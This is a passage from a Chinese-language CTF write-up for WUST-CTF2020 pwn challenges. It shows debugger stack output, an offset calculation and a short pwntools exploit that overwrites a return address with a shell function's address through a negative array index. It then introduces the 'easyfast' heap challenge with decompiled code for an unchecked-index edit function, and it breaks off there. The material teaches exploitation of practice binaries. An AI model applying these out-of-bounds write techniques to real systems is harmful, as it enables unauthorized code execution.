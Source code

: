 查看返回地址：

```nasm
0e:0038│ ebp  0xffffcc28 —▸ 0xffffcc88 —▸ 0xffffcc98 ◂— 0x0
0f:003c│      0xffffcc2c —▸ 0x80486e9 (vulnerable+54) ◂— add    esp, 0x10
10:0040│      0xffffcc30 —▸ 0xffffcc54 —▸ 0xf7fe9790 ◂— pop    edx
```

偏移量：`(0xffffcc2c-0xffffcc54)/8=-5`

### exp

```python
shell = p32(0x080485CB)
sla('>','-5')
sla('Give your name plz: ',shell)
```



## easyfast

- 题目描述：

  > Author: ColdShield

- 题目附件：[easyfast](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/WUST-CTF2020/pwn/easyfast/easyfast)

- 考察点：数组越界

- 难度：中等

- 初始分值：1000

- 最终分值：1000

- 完成人数：2

### 程序分析

貌似是个fastbin attack入门题，标准的菜单式堆题。

然鹅编辑功能没有检查`index`是否合法，因此还是可以数组越界写。

```c
unsigned __int64 edit(){
  __int64 inedx; // ST08_8
  char s; // [rsp+10h] [rbp-20h]
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("index>");
  fgets(&s, 8, stdin);
  inedx = atoi(&s);
  read(0, buf[inedx], 8uLL);
  return __readfsqword(0x28u) ^ v3;
}
```
